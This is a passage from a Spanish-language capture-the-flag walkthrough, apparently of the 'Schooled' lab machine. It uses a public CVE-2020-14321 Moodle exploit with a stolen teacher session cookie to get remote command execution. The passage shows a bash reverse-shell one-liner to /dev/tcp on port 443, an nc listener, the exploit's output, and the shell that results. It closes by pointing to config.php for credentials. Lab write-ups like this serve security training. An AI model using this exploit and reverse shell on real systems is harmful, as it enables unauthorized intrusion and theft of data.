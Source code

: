 ```bash
~$> cd CVE-2020-14321
~$> chmod +x CVE-2020-14321_RCE.py
```
 - Nos ponemos en escucha en una terminal por separado, por el **puerto 443**, haciendo uso de **rlwrap**

```bash
~$> rlwrap nc -nlvp 443
listening on [any] 443 ...
```

 - Y ejecutamos el exploit anteriormente clonado de este modo:

```bash
~$> ./CVE-2020-14321_RCE.py http://moodle.schooled.htb/moodle --cookie [COOKIE_ROBADA_DEL_USUARIO_PHILLIPS] -c "bash -c 'bash -i >& /dev/tcp/[TU_IP]/443 0>&1'"
```
```bash
 __     __     __   __  __   __              __  __
/  \  /|_  __   _) /  \  _) /  \ __  /| |__|  _)  _) /|
\__ \/ |__     /__ \__/ /__ \__/      |    | __) /__  | • by lanz

Moodle 3.9 - Remote Command Execution (Authenticated as teacher)
Course enrolments allowed privilege escalation from teacher role into manager role to RCE
                                                        
[+] Login on site: MoodleSession:sjcag2ogfe33bg1p1ri1l80au9 ✓ 
[+] Updating roles to move on manager accout: ✓     
[+] Updating rol manager to enable install plugins: ✓
[+] Uploading malicious .zip file: ✓
[+] Executing bash -c 'bash -i >& /dev/tcp/10.10.16.51/443 0>&1': ✓
[+] Keep breaking ev3rYthiNg!!
```
Luego de esto vemos como recibimos una conección en la consola por la que estabamos en escucha

```bash
connect to [10.10.16.51] from (UNKNOWN) [10.10.10.234] 23509
bash: cannot set terminal process group (2027): Can't assign requested address
bash: no job control in this shell
[www@Schooled /usr/local/www/apache24/data/moodle/blocks/rce/lang/en]$
```
No podemos hacer un [tratamiento de la tty](https://invertebr4do.github.io/tratamiento-de-tty/), pero si podemos definir las variables **TERM** y **SHELL**, para mejorar un poco la movilidad

```bash
[www@Schooled /usr/local/www/apache24/data/moodle/blocks/rce/lang/en]$ export TERM=xterm
[www@Schooled /usr/local/www/apache24/data/moodle/blocks/rce/lang/en]$ export SHELL=bash
```
Retrocedemos unos directorios

```bash
[www@Schooled /usr/local/www/apache24/data/moodle/blocks/rce/lang/en]$ cd /usr/local/www/apache24/data/moodle
[www@Schooled /usr/local/www/apache24/data/moodle]$
```
Y si listamos el contenido de este directorio vemos varios ficheros, pero hay uno que puede contener información interesante, el ```config.php```
